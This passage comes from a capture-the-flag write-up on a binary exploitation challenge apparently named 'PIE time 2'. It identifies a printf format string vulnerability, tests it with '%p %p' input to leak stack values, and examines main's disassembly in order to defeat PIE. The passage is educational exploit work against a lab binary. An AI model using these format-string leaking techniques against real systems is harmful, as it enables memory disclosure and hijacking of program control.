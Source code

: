 ```C
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
  return 0;
}
```

In particular, we notice that `printf` looks a little strange: it has no format specifier. My installed Clangd helped me get some information about this:

<img src="pie_time2_images/clangd_out.png" width="1000" />

We identify this as a format string vulnerability that may help us get more information. Notably, since we also aren't given the address of main like in PIE time 1, we may be able to use this to get more information about the run-time addresses of `vuln`. 

## Exploitation

I decided to use OWASP's format string vulnerability example on `vuln`:

```
mms2379@spoc:~/ctf/pie_time2$ ./vuln 
Enter your name:%p %p
0x70252070 0xfbad2288
 enter the address to jump to, ex => 0x12345: 0x0
Segfault Occurred, incorrect address.
```

Indeed, we may use this to get some more information. However, we need to know what address we're looking for ahead of time. I headed to `vuln`'s disassembly for more information. (See the full disassembly at `pie_time2/vuln_dump.txt`)

```
0000000000001400 <main>:
    1400:	f3 0f 1e fa          	endbr64 
    1404:	55                   	push   %rbp
    1405:	48 89 e5             	mov    %rsp,%rbp
    ...
    143c:	e8 86 fe ff ff       	call   12c7 <call_functions>
    1441:	b8 00 00 00 00       	mov    $0x0,%eax
    1446:	5d                   	pop    %rbp
    1447:	c3                   	ret    
    1448:	0f 1f 84 00 00 00 00 	nopl   0x0(%rax,%rax,1)
    144f:	00
```

